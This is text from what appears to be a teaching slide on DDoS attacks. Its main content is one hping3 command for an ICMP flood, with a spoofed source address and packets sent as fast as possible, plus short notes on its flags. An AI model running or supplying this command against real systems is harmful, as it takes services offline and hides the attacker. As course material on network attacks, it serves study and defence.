

# DDoS Attack : ICMP flood example
hping3 –icmp -p [dst_port]  --flood -a [fake_src_ip] [dst_ip]
-p  destination port
--flood    sent packets as fast as possible
-a  spoof source address